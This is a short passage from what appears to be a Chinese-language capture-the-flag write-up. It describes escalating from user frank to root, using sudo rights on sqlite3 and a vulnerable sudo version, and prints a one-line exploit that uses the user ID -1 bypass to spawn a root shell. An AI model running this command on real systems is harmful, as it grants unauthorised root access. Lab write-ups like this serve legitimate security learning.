

为了提升权限，我们检查了 Sudo 权限，发现用户 frank 可以使用 root 权限运行 sqlite3，而且安装的 sudoers 插件版本也存在漏洞。



我们从[这里](https://www.exploit-db.com/exploits/47502)发现了一个漏洞。然后我执行以下命令以获取 root 权限 shell 并读取作为我们最终标志的 root.txt。

```
sudo -u#-1 sqlite3 /dev/null '.shell /bin/bash'
```


